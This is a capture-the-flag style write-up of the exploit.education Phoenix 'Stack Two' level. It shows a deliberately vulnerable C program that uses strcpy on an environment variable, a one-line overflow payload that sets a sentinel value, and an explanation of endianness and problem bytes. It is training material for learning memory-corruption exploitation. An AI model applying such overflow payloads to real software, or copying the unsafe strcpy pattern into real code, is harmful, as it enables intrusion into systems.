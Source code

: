 # Stack Two

## Code

```c
/*
 * phoenix/stack-two, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * If you're Russian to get to the bath room, and you are Finnish when you get
 * out, what are you when you are in the bath room?
 *
 * European!
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  char *ptr;

  printf("%s\n", BANNER);

  ptr = getenv("ExploitEducation");
  if (ptr == NULL) {
    errx(1, "please set the ExploitEducation environment variable");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, ptr);

  if (locals.changeme == 0x0d0a090a) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Almost! changeme is currently 0x%08x, we want 0x0d0a090a\n",
        locals.changeme);
  }

  exit(0);
}
```

## Payload
```bash
$ export ExploitEducation=$(python3 -c "print('A' * 64 + '\x0a\x09\x0a\x0d')")
$ ./stack-two
```

## Solution

- This one is a bit more interesting. Now the code is looking for an environment variable `ExploitEducation` to be set. If it is, the value store in this environment variable is copied into `local.buffer` using the unsafe `strcpy()`. 

- Just like in `stack_one` there is a sentinel value `0x0d0a090a` that we need to place into `local.changeme`. Some things to note, the values `0x0a` and `0x0d` are newline (`\n`) and carriage return (`\r`) characters respectively. This can cause problems with some C functions that will stop reading/writing when a newline is encountered. Other problem characters such as null byes (`0x00`) cause a lot of issues as well for the same reasons. We should be ok for this challenge as `strcpy()` does not care about newlines in the data it is copying, only null bytes.

- Let's set our environment variable `ExploitEducation` to our payload that we used in the last challenge. Be careful to keep in mind endianess when setting your sentinel value.

![](Pasted%20image%2020210330152809.png)

- Success! The only difference between this challenge and the previous is the use of an environment variable to set your payload.